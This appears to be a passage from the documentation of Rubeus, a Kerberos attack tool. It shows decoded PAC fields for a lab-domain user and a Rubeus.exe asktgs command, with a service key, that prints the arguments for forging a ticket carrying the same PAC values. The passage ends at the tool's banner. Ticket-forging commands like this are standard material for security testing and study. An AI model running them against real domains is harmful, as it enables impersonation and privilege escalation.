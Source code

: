           PasswordLastSet      : 20/07/2021 21:58:44
          PasswordCanChange    : 21/07/2021 21:58:44
          PasswordMustChange   : 31/08/2021 21:58:44
          EffectiveName        : ccob
          FullName             : C Cob
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 0
          BadPasswordCount     : 0
          UserId               : 1109
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS
          UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (16) NORMAL_ACCOUNT
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-2
          ResourceGroupCount   : 0
        ClientName             :
          Client Id            : 20/07/2021 21:59:39
          Client Name          : ccob
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : ccob@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :
          Signature Type       : KERB_CHECKSUM_HMAC_MD5
          Signature            : 79A2DC5595C76FA85155B4C65B3A0EE1 (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : DA57618BB48EA56371E374B1 (UNVALIDATED)

If the PAC can be decrypted (by using a user-to-user request or by passing the `/servicekey`) is it possible to print the arguments required to forge a ticket containg the same PAC values:

    C:\Rubeus>Rubeus.exe asktgs /service:roast/me /printargs /servicekey:9FFB199F118556F579B415270EE835005227FCBF29331DAC27C4397AC353F52B /ticket:doIF9DCCBfCgAwIBBaEDAg...(snip)...cGFjay5sb2NhbA==

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
